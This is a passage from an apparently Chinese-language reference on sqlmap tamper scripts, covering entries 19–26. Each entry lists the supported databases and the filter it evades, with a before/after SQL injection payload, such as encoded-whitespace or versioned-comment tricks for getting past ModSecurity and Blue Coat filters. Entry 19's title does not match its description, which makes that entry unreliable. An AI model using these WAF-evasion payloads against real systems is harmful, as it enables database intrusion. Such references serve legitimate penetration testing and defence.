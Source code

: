 #### 19. equaltolike.py

测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
- 作用：将>替换为GREATEST，绕过对>的过滤
- 使用脚本前：`tamper('1 AND A > B')`
- 使用脚本后：`1 AND GREATEST(A,B+1)=A`

#### 20. ifnull2ifisnull.py

- 适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)
测试通过数据库：MySQL 5.0 and 5.5
- 作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤
- 使用脚本前：`tamper('IFNULL(1, 2)')`
- 使用脚本后：`IF(ISNULL(1),2,1)`

#### 21. modsecurityversioned.py

- 适用数据库：MySQL
测试通过数据库：MySQL 5.0
- 作用：过滤空格，使用mysql内联注释的方式进行注入
- 使用脚本前：`tamper('1 AND 2>1--')`
- 使用脚本后：`1 /*!30874AND 2>1*/--`

#### 22. space2mysqlblank.py

- 适用数据库：MySQL
测试通过数据库：MySQL 5.1
- 作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B')
- 使用脚本前：`tamper('SELECT id FROM users')`
- 使用脚本后：`SELECT%0Bid%0DFROM%0Cusers`

#### 23. modsecurityzeroversioned.py

- 适用数据库：MySQL
测试通过数据库：MySQL 5.0
- 作用：使用内联注释方式（/*!00000*/）进行注入
- 使用脚本前：`tamper('1 AND 2>1--')`
- 使用脚本后：`1 /*!00000AND 2>1*/--`

#### 24. space2mysqldash.py

- 适用数据库：MySQL、MSSQL
- 作用：将空格替换为 -- ，并追随一个换行符
- 使用脚本前：`tamper('1 AND 9227=9227')`
- 使用脚本后：`1--%0AAND--%0A9227=9227`

#### 25. bluecoat.py

- 适用数据库：Blue Coat SGOS
测试通过数据库：MySQL 5.1,、SGOS
- 作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换=
- 使用脚本前：`tamper('SELECT id FROM users where id = 1')`
- 使用脚本后：`SELECT%09id FROM users where id LIKE 1`

#### 26. versionedkeywords.py
